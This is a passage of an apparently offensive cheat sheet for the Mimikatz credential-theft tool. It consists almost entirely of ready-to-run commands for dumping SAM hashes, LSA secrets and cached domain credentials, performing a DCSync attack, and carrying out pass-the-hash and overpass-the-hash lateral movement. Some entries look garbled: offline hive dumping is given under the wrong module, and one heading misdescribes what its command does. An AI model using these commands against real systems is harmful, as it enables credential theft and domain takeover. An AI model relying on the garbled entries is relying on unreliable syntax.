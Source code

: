 #### Extracting From SAM Database

1. **Dump Local Account Password Hashes**: Dumps password hashes from the SAM database, including the local Administrator account.
    ```bash
    lsadump::sam
    ```
2. **Dump Passwords from SYSTEM Hive**: Extracts password hashes from offline SYSTEM, SAM, and SECURITY registry hives.
    ```bash
    sekurlsa::logonpasswords /system:<SYSTEM_file> /sam:<SAM_file> /security:<SECURITY_file>
    ```

#### Extracting From LSA Secrets

1. **Dump LSA Secrets**: Extracts stored LSA secrets, which may include service account passwords and other sensitive information.
    ```bash
    lsadump::secrets
    ```
2. **Dump Cached Domain Credentials**: Extracts cached domain credentials stored by Windows for offline logins.
    ```bash
    lsadump::cache
    ```

#### Extracting From Domain Controller

1. **Perform a DC Sync Attack**: Emulates a Domain Controller to retrieve password hashes for a specific domain user.
    ```bash
    lsadump::dcsync /user:<username>
    ```
2. **Dump All Domain Admin Hashes**: Extracts the password hash of the domain administrator, useful for gaining full control over a domain.
    ```bash
    lsadump::dcsync /user:administrator
    ```

## Pass-the-Hash and Pass-the-Ticket Attacks

Mimikatz enables the use of credentials extracted from one machine to access other machines, a technique known as lateral movement.

#### Pass-the-Hash (PTH)

1. **Perform a Pass-the-Hash Attack**: Uses an NTLM hash to authenticate as a user without needing their plaintext password.
    ```bash
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash>
    ```
2. **Pass-the-Hash with a Remote Command**: Executes a remote command on a target machine using the passed hash.
    ```bash
    sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<command>
    ```
3. **Pass-the-Hash with Overpass-the-Hash**: Uses an AES key instead of an NTLM hash for Pass-the-Hash, often referred to as Overpass-the-Hash.
    ```bash
    sekurlsa::pth /user:<username> /domain:<domain> /aes256:<key>
    ```
